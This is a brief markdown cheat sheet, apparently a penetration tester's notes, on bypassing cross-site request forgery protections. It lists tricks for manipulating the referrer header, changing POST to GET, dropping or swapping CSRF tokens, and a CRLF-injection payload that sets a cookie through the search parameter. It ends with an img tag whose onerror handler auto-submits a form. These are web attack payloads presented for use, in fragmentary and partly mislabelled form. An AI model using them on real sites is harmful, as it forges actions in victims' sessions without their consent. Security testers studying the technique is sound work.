 # Cross-site request forgery (CSRF)
## Test first:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```js
Referrer-Policy: unsafe-url
```
"Invalid referrer validation" so:
```html
<meta name="referrer" content="no-referrer">
```
else:
csrf without csrf protection - EZ
csrf validation depends on request method  - Change post to get
csrf delete csrf parameter
csrf - drop request and test the token in other session 
csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
